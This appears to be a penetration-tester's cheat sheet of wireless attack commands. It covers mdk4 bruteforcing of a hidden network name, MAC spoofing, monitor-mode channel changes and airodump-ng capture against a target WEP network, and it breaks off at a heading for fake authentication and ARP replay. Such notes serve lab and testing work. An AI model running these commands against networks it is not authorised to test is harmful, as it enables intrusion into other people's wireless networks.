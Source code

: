 
# Discover Network w/ Bruteforcing
```
mdk4 wlan0mon p -t <BSSID> -f <wordlist>
```

## Change Channel

- The interface has to be in monitor mode:

```
sudo iwconfig <interface_in_mointor_mode> channel <number>

sudo iw dev wlan0mon set channel 11
#or 
sudo iwconfig wlan0mon channel 11
```

# Change MAC Address
```
sudo airmon-ng stop wlan0mon
systemctl stop network-manager
ip link set wlan0 down
macchanger -m <new_mac_address> <interface>
ip link set wlan0 up
```


# WEP

## Setup Interface

```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```

## Capture packets with the `WEP` network info

```
sudo airodump-ng --band abg --manufacturer --wps wlan0mon
```

Targeted BSSID and Channel:

```
sudo airodump-ng --band abg --manufacturer --bssid <target-bssid> -c <target-channel> --wps -w wep wlan0mon
```

## Send fake authentication and ARPreplay attack
